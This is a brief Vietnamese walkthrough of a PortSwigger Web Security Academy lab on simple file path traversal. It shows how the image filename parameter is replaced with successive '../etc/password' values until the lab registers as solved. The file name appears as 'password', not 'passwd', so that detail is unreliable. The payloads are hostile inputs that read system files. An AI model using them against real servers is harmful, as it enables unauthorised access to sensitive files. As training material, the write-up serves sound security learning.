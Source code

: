 # [Lab: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

Truy cập vào trang web, khi mở ảnh ở tab khác ta sẽ thấy url là `https://0a84003404eea5d7c082d6a1006000c7.web-security-academy.net/image?filename=30.jpg`.

Thay lần lượt filename = :
- `../etc/password` -> "No such file"
- `../../etc/password` -> "No such file"
- `../../../etc/password` -> Lab Solved

Quan sát response bằng burpsuite mới thấy nội dung file.